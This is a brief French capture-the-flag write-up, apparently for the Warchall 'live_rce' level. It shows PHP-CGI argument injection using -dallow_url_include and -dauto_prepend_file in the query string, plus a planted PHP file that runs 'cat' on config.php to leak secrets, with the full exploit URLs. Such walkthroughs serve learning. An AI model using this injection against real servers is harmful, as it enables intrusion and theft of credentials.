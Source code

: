 **Analyse initiale**

- Explorez les options de PHP-CGI en utilisant php-cgi --help.
- Remarquez que le script cible (index.php) inclut un autre fichier (config.php) en utilisant l'instruction require '../config.php';.
- Identifiez les chemins absolus des fichiers : /home/level/20_live_rce/www/index.php et /home/level/20_live_rce/config.php.

**Étapes d'exploitation**

- Utilisez des paramètres PHP-CGI pour définir des entrées INI :
    - -dallow_url_include=On : Permet d'inclure des fichiers distants.
    - -dauto_prepend_file=/tmp/2.php : Spécifie un fichier à inclure avant de traiter le fichier demandé.
- Créez /tmp/2.php avec le contenu suivant :

```php
<?php
exec("cat /home/level/20_live_rce/config.php", $out);
print_r($out);
?>
```

Accédez au script cible avec les paramètres manipulés :
- `http://rce.warchall.net/?-dallow_url_include=On+-dauto_prepend_file=/tmp/2.php+-n`

Accédez au script cible avec les paramètres manipulés et l'URL encodée :
- `http://rce.warchall.net/?-dallow_url_include%3DOn+-dauto_prepend_file%3D%2ftmp%2f2.php+-n`


Inspectez le code source pour révéler plus d'informations.






